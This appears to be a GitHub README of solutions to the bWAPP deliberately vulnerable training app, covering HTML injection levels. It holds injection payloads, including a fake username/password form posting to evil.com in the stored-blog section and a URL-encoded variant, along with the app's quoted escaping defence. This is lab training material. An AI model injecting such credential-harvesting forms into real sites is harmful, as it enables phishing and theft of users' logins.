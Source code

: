 # bWAPP
Some bWAPP solutions :)
# A1 - Injection
Below are the html form tags that should be entered in the username.

## HTML Injection - Reflected (GET/POST)

- Security-Level : Low

    Please visit [html_1](https://github.com/divyanshu29/bWAPP/blob/master/HTML_Injection/html_1_low.html) for solution.
    
- Security-Level : Medium

   Enter below in username for HTML Injection
   ```
   %3Cform%20action%3D%22https%3A%2f%2fgoogle.com%22%3E%20%3Cinput%20type%3D%22text%22%20placeholder%3D%22Username%22%3E%3C%2fbr%3E%3C%2fbr%3E%20%3Cinput%20type%3D%22password%22%20placeholder%3D%22Password%22%3E%3C%2fbr%3E%3C%2fbr%3E%20%3Cinput%20type%3D%22submit%22%20value%3D%22Submit%22%3E%20%3C%2fform%3E
   ```
   Use [this](https://gchq.github.io/CyberChef/) site for encoding helps :)
   
- Security-Level : High

    I can't think of a way to bypass the below code protection
    ```
    function xss_check_3($data, $encoding = "UTF-8")
    {
    // htmlspecialchars - converts special characters to HTML entities    
    // '&' (ampersand) becomes '&amp;' 
    // '"' (double quote) becomes '&quot;' when ENT_NOQUOTES is not set
    // "'" (single quote) becomes '&#039;' (or &apos;) only when ENT_QUOTES is set
    // '<' (less than) becomes '&lt;'
    // '>' (greater than) becomes '&gt;'  
    return htmlspecialchars($data, ENT_QUOTES, $encoding);
    }
    ```
## HTML Injection - Reflected (URL)
 
 - Security Level : Low/High/Medium
 
    I haven't done this as it wont run on Firefox only compatible version is of IE. Niether Chromium,Chrome nor Firefox would work.Look [here](http://penthusiasts.blogspot.com/2013/12/bwapp-html-injection-all.html) for methods.
    
## HTML Injection - Stored (Blog)

- Security Level : Low
    ```
    <form action="https://evil.com">
    <input type="text" placeholder="Username"></br></br>
    <input type="password" placeholder="Password"></br></br>
    <input type="submit" value="Submit">
    </form>
    ```
- Security-Level : Medium/High
